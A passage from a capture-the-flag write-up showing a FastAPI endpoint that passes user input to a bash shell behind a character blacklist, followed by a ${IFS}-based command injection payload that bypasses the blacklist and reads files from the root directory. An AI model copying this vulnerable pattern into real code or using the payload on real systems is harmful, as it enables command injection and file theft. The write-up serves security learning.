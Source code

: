 ```python

@app.post("/submit")
async def submit(req: Request):
    data = await req.json()
    name = data.get("name")
    for char in invalid_chars:
        if char in name:
            return {"success": False, "response": "Invalid Characters"}
    try:
        get_output = subprocess.check_output(f"echo " + name, shell=True, executable="/bin/bash")
    except:
        return {"success": False, "response": "Something went wrong on our side."}
    return {"success": True, "response": get_output}

```

So we know it's using `subprocess` that actually is the reason for our command injection vuln. And there's a blacklist as well so we need to come up with something to bypass those blacklisted characters.

Since my above payload can read every file in current directory, I simply added `cd .. && cd .. &&` before it to get to `/` directory and read the flag.

So final payload is as follows.

Final Payload: ``cd${IFS}..&&cd${IFS}..&&ls${IFS}-p${IFS}${IFS}|${IFS}xargs${IFS}-I${IFS}{}${IFS}cat${IFS}{}``

Make sure to put the payload in backticks.

!["Flag for Feedback"](23.png "Flag for Feedback")

### Little Nightmare

#### Description
